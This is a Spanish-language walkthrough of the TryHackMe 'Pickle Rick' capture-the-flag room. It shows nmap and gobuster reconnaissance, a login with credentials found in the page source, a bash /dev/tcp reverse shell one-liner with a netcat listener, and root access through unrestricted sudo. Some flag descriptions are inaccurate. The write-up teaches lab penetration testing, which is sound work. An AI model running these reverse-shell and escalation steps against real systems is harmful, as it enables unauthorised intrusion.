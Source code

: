 # 🥒 Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **Nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: **SYN Scan**, también conocido como _half-open scan_, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: **Null Ping**. Se usa por si el servidor esta bloqueando trazas **ICMP**.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><img src="../../.gitbook/assets/nmap-scaneo.png" alt=""><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><img src="../../.gitbook/assets/sitio.png" alt=""><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**

<figure><img src="../../.gitbook/assets/user.png" alt=""><figcaption></figcaption></figure>

Una vez encontrado el usuario exploramos algunas rutas que siempre son de interés como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><img src="../../.gitbook/assets/robots.png" alt=""><figcaption></figcaption></figure>

## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos **Gobuster**, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/fuzzing.png" alt=""><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de **login**, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contraseña `Wubbalubbadubdub`

<figure><img src="../../.gitbook/assets/login.png" alt=""><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panel de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><img src="../../.gitbook/assets/command_panel.png" alt=""><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```

<figure><img src="../../.gitbook/assets/reverse_shell.png" alt=""><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><img src="../../.gitbook/assets/primer-ingrediente.png" alt=""><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscábamos: **second ingridient**.

<figure><img src="../../.gitbook/assets/segundo-ingrediente.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><img src="../../.gitbook/assets/sudo-l.png" alt=""><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><img src="../../.gitbook/assets/tercer-ingrediente.png" alt=""><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
